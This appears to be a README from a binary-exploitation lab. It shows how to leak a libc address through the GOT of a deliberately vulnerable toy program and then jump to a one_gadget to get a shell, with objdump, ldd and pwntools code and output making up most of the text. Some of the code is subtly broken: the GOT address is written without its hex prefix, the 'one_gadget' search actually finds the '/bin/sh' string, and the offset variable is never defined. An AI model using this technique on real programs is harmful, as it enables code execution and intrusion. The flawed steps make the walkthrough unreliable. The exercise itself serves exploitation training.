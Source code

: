 
# Example, memory leak -> arbitrary call
`./ar8b_ac` is a program that
1. reads a ptr, `read_loc`
2. prints 8 bytes at `read_loc`
3. reads another ptr, `call_loc` 
4. executes the code at `call_loc`

# Exploit

## Get absolute address of the read entry in the global offset table
```
objdump -Mintel -d ar8b_ac | less
...
00000000004005b0 <read@plt>:
  4005b0:       ff 25 7a 0a 20 00       jmp    QWORD PTR [rip+0x200a7a]        # 601030 <_GLOBAL_OFFSET_TABLE_+0x30>
  4005b6:       68 03 00 00 00          push   0x3
  4005bb:       e9 b0 ff ff ff          jmp    400570 <_init+0x28>
...
```
In the above example, `0x601030` is the absolute address of the read entry in the GOT.
`0x4005b0` is the absolute address of the read trampoline.  For all intents and purposes,
when the program calls the function `read`, it thinks it is calling `read` in libc, but
it is really calling this trampoline which will 'jmp' to read in libc.

## Get offset of read in libc
```
vagrant@vagrant:/vagrant/2_got_leak_libc_reconstruction$ ldd ar8b_ac
        linux-vdso.so.1 =>  (0x00007ffff7ffa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7a0d000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd7000)
vagrant@vagrant:/vagrant/2_got_leak_libc_reconstruction$ objdump -Mintel -d /lib/x86_64-linux-gnu/libc.so.6 | less
...
00000000000f7250 <__read@@GLIBC_2.2.5>:
...
```

Now, correctly encode this information into a script `leak.py`
```
from pwn import *

endpoint = process("./ar8b_ac")

# ./ar8b_ac constants/offsets
read_got = 601030

# libc offsets
read_offset = 0xf7250

endpoint.send(p64(read_got))

data_received = endpoint.recv(8)
read_addr = u64(data_received)

print("[+] Read address: 0x{:2x}".format(read_addr))
libc_base = read_addr - read_offset
print("[+] Libc base: 0x{:2x}".format(libc_base))
```
At this point, you can effectively leak and reconstruct
the base address of `libc`.  Now, you need to make that knowledge
worth while and jump to a useful area in libc.  You can 
call multiple useful functions like `system` with an argument
of `/bin/sh`.  Or you can call a magic instruction known
as `one_gadget` that will call `execve("/bin/sh", ... )`,
effectively giving you a shell.  Here's a manual way to
find the `one_gadget` offset.

```
vagrant@vagrant:/vagrant/1_c_step_through$ ipython --quiet
In [1]: from pwn import *

In [2]: elf = ELF("/lib/x86_64-linux-gnu/libc.so.6")
e[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

In [3]: list(map(hex, elf.search("/bin/sh")))
Out[3]: ['0x18cd57']
```

Now, send the `one_gadget` address to the program
and launch into interactive mode.
```
endpoint.send(p64(libc_base + one_gadget_offset))
endpoint.interactive()
```
You should have a shell.  The example exploit is
in `solve.py` and you can run `./solve.py --gdb`
within a tmux terminal to step through the exploit.
